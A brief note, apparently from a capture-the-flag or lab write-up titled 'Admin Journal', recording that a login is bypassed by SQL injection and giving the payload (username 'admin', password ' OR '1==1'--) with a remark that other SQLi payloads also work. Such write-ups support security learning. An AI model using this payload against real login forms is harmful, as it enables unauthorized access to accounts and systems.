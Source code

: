 # Admin Journal
EXPLOIT: SQLi

```
username: admin
password: ' OR '1==1'--
```

NOTE: Plenty of other SQLi payloads can work here. 